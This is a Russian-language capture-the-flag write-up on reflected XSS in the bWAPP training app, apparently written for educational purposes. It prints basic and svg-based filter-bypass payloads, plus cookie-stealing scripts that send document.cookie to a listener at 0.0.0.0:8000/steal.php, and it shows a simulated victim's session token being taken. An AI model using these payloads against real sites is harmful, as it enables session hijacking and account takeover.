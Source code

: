 # Reflected XSS (GET)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, который содержит задачи, основанные на ***уязвимости типа "Межсайтовый скриптинг" (XSS)***. (**A03:2021 – Injection**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий
- Средний

# Приложение
---

![[XssReflectedTarget.png]]

# Функционал
---

![[XssReflectedFunction.png]]

# Эксплуатация (фаза 1)
---

Тестирование на наличие Reflected XSS путем передачи простого XSS-пейлоада в поле `lastname` через BurpSuite или непосредственно на клиентской стороне:

#### Пейлоад (Уровень безопасности - низкий)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite

![[XssReflectedGetBurp.png]]

## Браузер

![[XssReflectedBrowser.png]]

## Результат

![[XssReflectedSuccess.png]]

Приложение уязвимо к Reflected XSS. Эту уязвимость можно использовать для кражи cookie других пользователей.

Примечание: для уровней безопасности `medium` и `high` в bWAPP пейлоады будут отличаться из-за реализованных мер безопасности.

## Эксплуатация (Фаза 2)
---

HTTP-сервер можно запустить с помощью Python, используя команду:

```Bash
python3 -m http.server "порт"
```

Я не указал порт, и сервер запустился на порту `8000`.

Когда пользователь переходит по URL с внедренным этим пейлоадом:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Его cookie будут отправлены на HTTP-сервер, запущенный на порту `8000`.

Переход по URL от пользователя `bee/bug` привел к успешной краже cookie:

![[XssReflectedCookieTheftTest.png]]
(PHPSESSID содержит токен, используемый для аутентификации пользователей)

Теперь смоделируем взаимодействие с жертвой:

![[XssReflectedMamont1.png]]

Я создал пользователя-жертву и использовал его учетные данные для входа в bWAPP.

Как только жертва переходит по злонамеренной ссылке (которая в реальном мире обычно предоставляется c помощью методов социальной инженерии), значение cookie отправляется на сервер атакующего:

![[XssReflectedMamont2.png]]

Сработало! Cookie пользователя `Mamont` были успешно скомпрометированы без его ведома:

![[XssReflectedMamontCookie.png]]
(Для более четкого вывода я перезапустил экземпляр)

## Подход для уровня Medium
---

BWAPP на уровне безопасности `medium` реализует защитную меру против базового XSS-пейлоада:

```HTML
<script>alert("Basic XSS")</script>
```

Однако пейлоад на основе `svg` обходит фильтры, что приводит к успешному выполнению кода:

```HTML
<svg onload=alert(1)>
```

### Пейлоад для кражи cookie на уровне Medium

Этот пейлоад аналогичен подходу для низкого уровня, но основан на `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```